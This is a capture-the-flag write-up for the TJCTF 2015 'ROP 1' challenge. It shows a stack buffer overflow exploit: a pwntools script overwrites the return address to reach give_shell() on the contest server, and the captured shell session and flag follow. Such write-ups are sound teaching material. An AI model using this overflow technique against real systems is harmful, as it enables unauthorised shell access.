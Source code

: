 ```yaml
---
layout: post
title: "TJCTF 2015 ROP 1"
date: 2015-04-29 01:36:14 -0400
author: [superkojiman]
comments: true
categories: [tjctf]
---
```


### Solved by superkojiman

Simple overflow using gets. We need to redirect execution to give_shell(). We can find its address in gdb:

```
gdb-peda$ p give_shell
$1 = {<text variable, no debug info>} 0x8048505 <give_shell>
```


We can overwrite the saved return pointer in the name() function by sending 116 bytes. Pretty easy, so have it return to give_shell(): 

```python
#!/usr/bin/env python 
from pwn import *

give_shell = p32(0x8048505)

buf = ""
buf += "A"*112 + give_shell

r = remote("p.tjctf.org", 8094)
print r.recv()
r.send(buf + "\n");
r.interactive()
```

Let's grab that flag: 

```text
koji@pwnbox32:~/Desktop/rop-1$ ./sploit.py 
[+] Opening connection to p.tjctf.org on port 8094: Done
Enter your name 
[*] Switching to interactive mode
$ id
uid=1000(app) gid=1000(app) groups=1000(app)
$ ls
Dockerfile
etc
flag
prog
rop1
wrapper
$ cat flag
isnt_ret_a_nice_instruction
```

The flag is: isnt_ret_a_nice_instruction

